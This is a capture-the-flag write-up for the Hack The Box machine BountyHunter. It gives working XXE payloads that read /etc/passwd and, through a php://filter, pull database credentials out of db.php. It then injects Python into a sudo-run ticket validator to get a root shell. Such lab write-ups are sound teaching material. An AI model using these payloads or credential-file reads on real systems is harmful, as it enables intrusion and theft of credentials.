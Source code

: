 ```yaml
---
title: HTB-BountyHunter
draft: false
tags:
  - htb
  - linux
  - easy
  - xxe
  - sudoers
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/BountyHunter.png)

## Information Gathering
### Rustscan

Rustscan finds SSH and HTTP running:

`rustscan --addresses 10.10.11.100 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-1.png)

## Enumeration
### HTTP - TCP 80

Website seems pretty simple. Let's take at the menus at top-right corner.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image.png)

`/portal.php` is underdevelopment and leads us to `/log_submit.php`. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-2.png)

`/log_submit.php` is a Bounty Report System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-3.png)

Let's see if there are any other directories using feroxbuster:

`sudo feroxbuster -u http://10.10.11.100 -n -x php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-9.png)

**db.php** is found but it returns empty screen.

### log_submit.php

Let's intercept the traffic with some random data as input:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-5.png)

It seems that the input data is enocded to one big chunk and it is being sent. 

When we forward the traffic, we can see the result:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-4.png)

Decoding the data piece using Burp Suite Decoder(URL Decode -> Base64 Decode), it seems to be xml encoded:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-7.png)

Seeing xml instantly reminded me of **XXE**.

## Shell as Development
### XXE

Below is how the input data is saved as xml:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>teset</title>
		<cwe>123</cwe>
		<cvss>123</cvss>
		<reward>123</reward>
		</bugreport>
```

Let's craft a malicious xml data piece so that it will read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>123</cwe>
		<cvss>123</cvss>
		<reward>123</reward>
		</bugreport>
```

After saving the above xml to a txt file, we will base64 encode it:

`base64 -w0 xxe.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-6.png)

Copy-paste the base64 encoded result to data parameter and url encode it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-8.png)

Upon sending the data, we can see result for `/etc/passwd`.

Remembering **db.php** from earlier, we will slightly modify the xml to access db.php:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "file:///var/www/html/db.php" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>123</cwe>
		<cvss>123</cvss>
		<reward>123</reward>
		</bugreport>
```

However, for some reason, we cannot access db.php:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-10.png)

Let's try base64 encoding it:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
</bugreport>
```

After base64 encoding the xml request for **db.php**, we get a result in base64 encoded format:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-11.png)

Decoding it, we are provided with credentials:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-12.png)

We tried log in to ssh as admin but it won't work. 

Remembering the result from earlier for `/etc/passwd`, we have the user **development** on the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-13.png)

Trying the login as **development**, we can ssh in:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-14.png)


## Privesc: development to root
### Sudoers

`/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` can be run with sudo privilege:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-15.png)

ticketValidator.py taking **md** file as the input and using as a ticket:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-16.png)

Based on the ticket format requirement, we can craft a malicious md file that will execute command `id`:

```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43+ __import__('os').system('id')**
```

After saving the above to **test.md**, we can run ticketValidator.py towards it and successfully execute commands as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-17.png)


Let's slightly modify the code so that we can get a shell as the root:

```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43+ __import__('os').system('/bin/bash')**
```

Now we have the shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bountyhunter/image-18.png)